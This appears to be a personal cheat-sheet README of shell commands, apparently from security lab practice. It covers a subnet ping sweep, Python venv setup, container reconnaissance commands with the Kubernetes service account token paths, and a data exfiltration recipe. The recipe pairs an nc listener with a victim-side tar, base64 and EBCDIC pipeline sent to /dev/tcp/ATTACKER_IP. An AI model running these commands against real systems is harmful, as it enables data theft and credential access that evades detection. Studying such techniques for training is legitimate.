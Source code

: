 # knowledge-db
Various commands, scripts and how-to documents

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 
```
id
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet 

/var/run/secrets/kubernetes.io/serviceaccount/token
/var/run/secrets/kubernetes.io/serviceaccount/namespace
/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

